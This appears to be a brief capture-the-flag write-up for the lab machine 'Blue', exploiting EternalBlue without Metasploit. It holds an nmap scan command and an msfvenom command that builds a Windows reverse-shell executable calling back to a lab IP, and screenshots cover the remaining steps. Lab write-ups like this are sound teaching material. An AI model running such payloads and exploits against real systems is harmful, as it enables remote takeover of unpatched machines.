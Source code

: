 Blue without Metasploit:

![Blue](https://user-images.githubusercontent.com/55708909/91400272-fe577080-e85c-11ea-83eb-62df0e7decde.png)

tarting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.40

![Blue_nmap](https://user-images.githubusercontent.com/55708909/91406950-14b2fb80-e860-11ea-963e-24b543e3b6b1.png)

Since basic tools doesn't work therefore again i run nmap vulnerability scan its a kind of methodolgy which is helpful for me.

![Blue_vuln](https://user-images.githubusercontent.com/55708909/91407940-a91d5e00-e860-11ea-9af1-7b89d7ce97fb.png)


Nmap found only one vulnerability that is eternal blue so we are going to exploit it.

![Blue_exploit](https://user-images.githubusercontent.com/55708909/91408457-8b042d80-e861-11ea-90ee-cb9a68007cd4.png)

First create a payload using msfvenom 

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

edit 42315.py files

![42315_PART_1](https://user-images.githubusercontent.com/55708909/91409346-eaaf0880-e862-11ea-8b35-88a345bb3cf7.png)

![42315_PART_2](https://user-images.githubusercontent.com/55708909/91409465-103c1200-e863-11ea-8e7d-b6e316b7b6fb.png)










